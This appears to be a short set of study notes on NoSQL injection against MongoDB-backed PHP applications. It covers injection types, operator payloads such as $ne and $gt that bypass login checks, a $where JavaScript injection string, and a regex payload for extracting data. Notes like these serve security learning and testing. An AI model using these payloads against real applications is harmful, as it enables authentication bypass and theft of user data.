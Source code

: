 # NoSQL
## Types of injections
- **In-Band** - the attacker can use the same channel of communication to exploit a NoSQL injection and receive the results
- **Blind** - This is when the attacker does not receive any direct results from the NoSQL injection, but they can infer results based on how the server responds
- **Boolean** - Boolean-based is a subclass of blind injections, which is a technique where attackers can force the server to evaluate a query and return one result or the other if it is True or False
- **Time-Based** - Time-based is the other subclass of blind injections, which is when attackers make the server wait for a specific amount of time before responding, usually to indicate if the query is evaluated as True or False

## PHP Syntax
|PHP query|Mongo Query|Description|
|-|-|-|
|`param[$op]=val`|`param: {$op: val}`||
|`email[$ne]=test@test.com`|`email: {$ne: "test@test.com"}`||
|`email=admin%40mangomail.com&password[$ne]=x`|`$and:[{email:"admin@mangomail.com"}, {password: {$ne: x}}]`|This assumes we know the admin's email and we wanted to target them directly|
|`email[$gt]=&password[$gt]=`|`$and: [{email: {$gt:0}}, {password: {$gt:0}}]`|Any string is 'greater than' an empty string|
|`email[$gte]=&password[$gte]=`|`$and: [{email: {$gte:0}}, {password: {$gte:0}}]`|Any string is 'greater than' an empty string|

## NoSQL queries
|Query|Description|
|-|-|
|`name: {$ne: 'doesntExist'}`|Assuming doesntExist doesn't match any documents' names, this will match all documents|
|`name: {$gt: ''}`|This matches all documents whose name is 'bigger' than an empty string|
|`name: {$gte: ''}`|This matches all documents whose name is 'bigger or equal to' an empty string|
|`name: {$lt: '~'}`|This compares the first character of name to a Tilde character and matches if it is 'less'. This will not always work, but it works in this case because Tilde is the largest printable ASCII value, and we know that all names in the collection are composed of ASCII characters|
|`name: {$lte: '~'}`|Same logic as above, except it additionally matches documents whose names start with ~|

## Server-Side JavaScript Injection
1. Set username to `" || true || ""=="`
2. The result ```db.users.find({
    $where: 'this.username === "" || true || ""=="" && this.password === "<password>"'
});```

### To exfiltrate data
`" || (this.username.match('^.*')) || ""==" `

## NB
**Если в приложении вызывается функция `where`, то она потенциально может привести к NoSQLi`**